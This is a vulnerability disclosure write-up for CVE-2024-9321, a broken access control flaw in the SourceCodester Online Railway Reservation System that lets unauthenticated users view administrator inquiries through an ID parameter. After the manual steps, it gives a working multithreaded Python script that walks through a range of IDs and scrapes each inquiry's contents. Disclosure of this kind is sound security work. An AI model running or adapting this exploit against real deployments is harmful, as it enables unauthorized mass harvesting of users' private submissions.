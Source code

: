 # Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System 
---
## CVE-2024-9321

Vulnerability Analysis:
---

Affected product: [Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)

Affected Endpoint: `orrs/admin/inquiries/view_details.php?id=*`

Vulnerability Analysis:
---

A Broken Access Control (Improper Access Control) vulnerability was discovered in SourceCoderster Online Railway Reservation System  where a unauthorized user and directly access inquiries submitted by users to Administrator This can be Demonstrated with this steps:

Affected Product: [Online Railway Reservation System](https://www.sourcecodester.com/php/15121/online-railway-reservation-system-phpoop-project-free-source-code.html)
 

Exploitation:

[
![image](https://github.com/gurudattch/CVEs/blob/main/assets/34.png)
---

1. Directly Pointing to the http://your_host/orrs/admin/inquiries/view_details.php?id=*  
2. By Changing the Id  parameter value a Unauthorized User can directly Access The Inquiry


OR USE this Python Script:

Python

```
import requests
import threading
from bs4 import BeautifulSoup

def send_request_and_extract_data(id):
    url = f"http://localhost/orrs/admin/inquiries/view_details.php?id={id}"
    response = requests.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')

    data = []
    for dl in soup.find_all('dl'):
        for dt, dd in zip(dl.find_all('dt', class_='text-primary'), dl.find_all('dd', class_='pl-4')):
            data.append((dt.text, dd.text))

    print(f"ID: {id}")
    for item in data:
        print(f"{item[0]}: {item[1]}")
    print()

def main():
    from_id = int(input("Enter the starting ID: "))
    to_id = int(input("Enter the ending ID: "))

    threads = []
    for id in range(from_id, to_id + 1):
        t = threading.Thread(target=send_request_and_extract_data, args=(id,))
        threads.append(t)
        t.start()

    for t in threads:
        t.join()

if __name__ == "__main__":
    main()


```
Usage

```
python3 exp.py

```
